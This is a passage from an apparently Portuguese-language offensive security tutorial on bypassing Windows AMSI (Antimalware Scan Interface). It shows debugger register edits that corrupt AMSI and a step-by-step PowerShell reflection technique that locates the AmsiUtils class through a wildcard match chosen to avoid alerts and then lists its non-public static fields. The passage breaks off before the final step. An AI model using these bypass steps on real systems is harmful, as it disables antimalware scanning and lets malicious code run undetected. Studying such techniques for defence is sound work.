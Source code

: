 ```bash
dc rcx L1
ed rcx 0
dc rcx L1
```

![Untitled](./Untitled%208.png)
Como resultado, após gerar o erro, conseguimos corromper o AMSI e executar a string sem bloqueios:

![Untitled](./Untitled%209.png)
## Criando o bypass com powershell

O powershell guarda informações do AMSI internamente dentro de uma classe chamada **System.Management.Automation.AmsiUtils,** como é um método interno, podemos ultilizar o conceito de **Reflection** para acessar seus métodos

Primeiro precisamos enumerar todos os tipos de dados existentes dentro dessa classe,
conseguimos fazer isso através do método **GetType**, presente dentro de uma estrutura
chamada **System.Management.Automation.PSReference**, ou **Ref.**

❅──────✧❅✦❅✧──────❅•❅──────✧❅✦❅✧──────❅•❅──────✧❅✦❅✧───❅

Uma estratégia é enumerar todos os tipos de dados existentes no processo do powershell:

```powershell
$a=[Ref].Assembly.GetTypes()
```

Logo em seguida, podemos criar um loop for que irá salvar somente o método que nós
queremos

```powershell
Foreach($b in $a) {if ($b.Name -like "*iUtils") {$b}}
```

Dessa forma conseguimos acesso ao método sem que o AMSI alerte.

O próximo passo é enumerar todos os campos e objetos dessa classe, em powershell
fazemos isso com o método GetFields, vamos utilizar as propriedades NonPublic e static para
enumerar as estruturas que não são instanciadas dentro da classe.

Primeiro salvamos a referência ao amsiUtils

```powershell
Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}}
```

Logo em seguida aplicamos o GetFields com as configurações mencionadas

```powershell
$c.GetFields('NonPublic,Static')
```
